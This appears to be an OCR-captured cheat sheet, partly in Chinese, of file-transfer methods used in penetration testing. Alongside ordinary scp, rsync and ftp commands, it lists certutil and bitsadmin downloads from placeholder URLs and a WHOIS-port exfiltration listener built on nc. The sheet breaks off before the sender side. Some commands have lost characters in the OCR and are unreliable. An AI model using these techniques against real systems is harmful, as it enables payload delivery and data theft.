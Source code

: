 ```
ftp 127.0.0.1 username password get file exit
```

TFTP

```
tftp -i host GET C:%homepath%file location_of_file_on_tftp_server
```

Bitsadmin

```
bitsadmin /transfer n http://domain/file c:%homepath%file
```

Window 文件共享

```
net use x: \127.0.0.1\share /user:example.comuserID myPassword
```

SCP 本地到远程

```
scp file user@host.com:/tmp
```

远程到本地

```
scp user@host.com:/tmp file
```

rsync 远程rsync服务器中拷贝文件到本地机

```
rsync -av root@192.168.78.192::www /databack
```

本地机器拷贝文件到远程rsync服务器

```
rsync -av /databack root@192.168.78.192::www
```

certutil.exe

```
certutil.exe -urlcache -split -f http://site.com/file
```

copy

```
copy \\IP\ShareName\file.exe file.exe
```

WHOIS 接收端 Host B：

```
nc -vlnp 1337 | sed "s/ //g" | base64 -d 
```

发送端 Host A：
